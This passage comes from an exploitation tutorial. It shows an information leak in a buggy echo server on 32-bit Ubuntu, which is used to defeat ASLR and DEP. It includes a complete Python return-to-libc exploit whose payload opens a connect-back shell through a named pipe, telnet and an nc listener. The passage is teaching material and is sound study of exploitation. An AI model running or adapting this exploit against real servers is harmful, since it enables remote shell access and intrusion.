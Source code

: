 So, we can see that in each run both addresses are different. To build the exploit, we take advantage of this information leak in the following manner: the address of the _send()_ function is used to calculate the address of _system()_ and _exit()_ functions that are also present in _libc_ and the stack address is used to calculate the address of the argument to _system()_.

## The exploit ##

A Python script that takes this approach to exploit the server is shown below:

```
# Exploit for buggy echo server running on Ubuntu 11.10 32 bits
# with DEP and ASLR enabled
#
# Run "nc -vv -l 8080" in a second terminal before running this script
# to receive the connect-back shell

import socket
import struct

c = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
c.connect(('localhost', 4000))

buf = "debug\n"
c.send(buf)
buf = c.recv(512)
leaked_stack_addr = int(buf[9:buf.find('\n')], 16)
leaked_send_addr = int(buf[27:buf.rfind('\n')], 16)
c.close()

c = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
c.connect(('localhost', 4000))

command = ('rm -f backpipe && mknod backpipe p &&'
           'telnet localhost 8080 0<backpipe | /bin/bash 1>backpipe\x00')
command_addr = leaked_stack_addr + 64
system_addr = leaked_send_addr - 0x96dd0  # system()
system_ret_addr = system_addr - 0xa140 # exit()
buf = ('A' * 52 + 
       struct.pack('I', system_addr) +
       struct.pack('I', system_ret_addr) +
       struct.pack('I', command_addr) +
       command)
c.send(buf)

c.close()
```

The exploit makes two connections to the echo server. In the first one, it sends the "debug" string to receive the two leaked addresses. Then, it makes the second connection to send the malicious data to create a connect-back shell.

The malicious data is composed of:
